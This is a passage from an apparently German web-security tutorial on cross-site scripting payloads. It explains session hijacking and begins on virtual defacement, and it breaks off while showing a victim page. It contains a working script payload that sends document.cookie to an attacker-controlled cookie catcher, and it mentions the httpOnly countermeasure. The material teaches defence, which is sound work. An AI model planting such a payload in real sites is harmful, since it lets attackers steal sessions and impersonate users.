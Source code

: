 Eine gute Quelle für weitere XSS-Beispiele ist das [OWASP XSS Filter
Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).

### XSS-Payloads

Mittels des eingeschleusten JavaScript-Code versucht der Angreifer nun,
negativen Einfluss auf einen Benutzer zu nehmen.

#### Session Hijacking

Javascript wird innerhalb des Browsers ausgeführt. Da in diesem auch
zumeist das Session-Cookie zur Identifikation eines Benutzers gegneüber
dem Server gespeichert wird, ist das Stehlen dieses via XSS naheliegend.

Um dies zu bewerkstelligen, verwendet der Angreifer einen
öffentlich-erreichbaren Webserver zu welchem die Cookies (und damit die
Benutzeridentitäten) übermittelt werden sollen. In dem Bespiel wird
<https://offensive.one/cookie_catcher> für diesen Zweck verwendet.

Findet der Angreifer auf der Opferwebseite eine persistent-XSS
Möglichkeit, könnte er nun folgendes Javascript-Fragement als
XSS-Payload verwenden:

```html
    <script>
        document.location="https://offensive.one/cookie_catcher?c="+document.cookie;
    </script>
```

Der Webbrowser würde also zu einer neuen URL auf dem Angreifer-Server
navigiert werden. Ein Teil der URl ist der Parameter ,,c”, dieser
Parameter wird mit den aktuellen Cookies befüllt. In diesen ist auch das
Session-Cookie enthalten. Der Angreifer würde dieses nun aus den
Log-Dateien seines Servers auslesen, und Zugriffe auf den ursprünglichen
Server mit diesem Cookie mit der Identität des Opfers ausführen können.

Als Gegenmassnahme für diese Payload sollte insbesondere das
*httpOnly*-Flag bei Cookies genannt werden. Durch dieses Flag wird der
Zugriff via Javascript auf das damit konfigurierte Cookie unterbunden.

#### Virtual Defacement

Ein weiteres Beispiel wäre *Virtual Defacement*: bei diesem wird mittels
JavaScript die dargestellt Webseite verändert und dadurch ein Defacement
durchgeführt. Bösartig an diesem ist, dass die direkten Inhalte
(Webseiten im Filesystem des Webservers) weiterhin korrekt aussehen.

Ein Beispiel wäre folgende Opferwebseite:

```html
    <html>
        <head>..
            <script src="http://cdn.local/script.js"></script>
        </head>
        <body id="main">
            <h1>My Company</h1>
        </body>
    </html>
```
